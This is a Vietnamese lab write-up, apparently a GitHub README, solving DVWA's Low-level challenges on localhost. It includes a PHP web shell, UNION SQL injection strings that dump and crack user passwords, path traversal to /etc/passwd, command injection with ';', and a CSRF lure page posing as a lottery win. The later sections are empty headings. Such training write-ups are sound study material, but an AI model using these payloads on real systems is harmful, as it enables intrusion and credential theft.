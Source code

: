 # DVWA - Security Level: Low

## 1. Brute Force  
Su dung BurpSuite bat request khi thuc hien dang nhap:  
![Brute Forces_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_1.png)  
Su dung tinh nang **Intruder**, thu bruteforces voi tai khoan **admin**:  
![Brute Forces_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_2.png)  
Ket qua:  
![Brute Forces_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_3.png)  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection  
Nhap **8.8.8.8** vao input box:  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_1.png)  
Chuc nang **Ping a device** thuc hien cau lenh **ping -c 4**, thu su dung ky tu **';'** de ket hop voi cac cau lenh khac:  
![Command Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_2.png)  
## 3. CSRF  
Khi su dung chuc nang **Change your admin password**, he thong se gui GET request nhu sau:  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/CSRF_1.png)  
Trong GET request chi co thong tin ve PHPSESSID de xac dinh xem user nao dang gui request. Tao mot trang web index.html nhu sau:  
```
<!DOCTYPE html>
<html lang = "en">
<head>
  <meta charset = "UTF-8">
  <title> Vietlott </title>
</head>
<body>
  <h1> Chuc mung ban da trung Vietlott 100.000.000.000 VND </h1>
  <img style="display:none" src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change" alt="">
</body>
</html>
```  
Khi nguoi dung truy cap vao trang web tren se kich hoat HTTP request toi chuc nang **Change your admin password** cua **DVWA**, neu nguoi dung dang truy cap trang **DVWA** voi tai khoan **admin**, trinh duyet se tu dong su dung PHPSESSID cua nguoi dung de gui request thay doi mat khau thanh **abc123**.  
Kiem tra lai tai khoan **admin** voi mat khau **abc123**  
![CSRF_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/CSRF_2.png)
## 4. File Inclusion  

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file1.php
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file2.php
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file3.php
```  
Duong dan **/?page=** se tro den 1 file tren server, vi vay ta co the thu truy cap toi cac file khac tren server (vi du /etc/passwd) bang cach them **../** vao URL nhu sau:
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```  
![File Inclusion_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/File%20Inclusion_1.png)  
## 5. File Upload  
Kiem tra chuc nang upload bang cach upload file shell.php:  
**shell.php**  
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```  
![File Upload_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/File%20Upload_1.png)  
Truy cap toi URL cua file shell.php:  
![File Upload_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/File%20Upload_2.png)  
Chuc nang File Upload khong thuc hien kiem tra file duoc upload len web co phai la file img khong, dan toi viec co the upload cac file khong hop le.  
## 6. Insecure Captcha  
Chuc nang **Change your password** su dung reCAPTCHA chia lam 2 **step** tuong ung voi 2 POST request:  
**step 1**  su dung **g-recaptcha-response** 
![Insecure CAPTCHA_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Insecure%20CAPTCHA_1.png)  
Nhung sau khi xac nhan **step 1**, **step 2** khong su dung tiep **g-recaptcha-response**:  
![Insecure CAPTCHA_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Insecure%20CAPTCHA_2.png)  
Vi vay, co the gui lai POST request **step 2** ma khong can co thong tin **g-recaptcha-response** de thay doi mat khau cua tai khoan:  
![Insecure CAPTCHA_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Insecure%20CAPTCHA_3.png)  
## 7. SQL Injection  
Nhap thu **"1"** vao input box:  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_1.png)  
Khi nhap **User ID = 1** trang web se tra ve thong tin cua **ID, First name, Surname**, vi vay cau lenh query co the la:  
**SELECT first_name, last_name FROM users WHERE user_id = id;**  
Thu kiem tra so column cua cau lenh query bang canh nhap **'UNION ODER BY 2--**  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_2.png)  
Kiem tra cac table trong database bang lenh query:  
**' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES-- -**  
![SQL Injection_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_3.png)  
Co table **users**, kiem tra cac column trong table **users** bang lenh query:  
**' UNION SELECT null, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'dvwa' and table_name = 'users'-- -**    
![SQL Injection_4](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_4.png)  
Trong table **user** co 2 column **user, password**, kiem tra 2 columns bang lenh query:  
**' UNION SELECT user, password FROM users-- -**  
![SQL Injection_5](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_5.png)  
Ta co cac thong tin ve **user, password**, **password** dang duoc ma hoa MD5. Sau khi giai ma:  
**admin - password  
gordonb - abc123  
1337 - charley  
pablo - letmein  
smithy - password**  
## 8. SQL Injection (Blind)  

## 9. Weak Session IDs  

## 10. XSS (DOM)  
    
## 11. XSS (Reflected)  
    
## 12. XSS (Stored)  

## 13. CSP Bypass  

## 14. JavaScript  
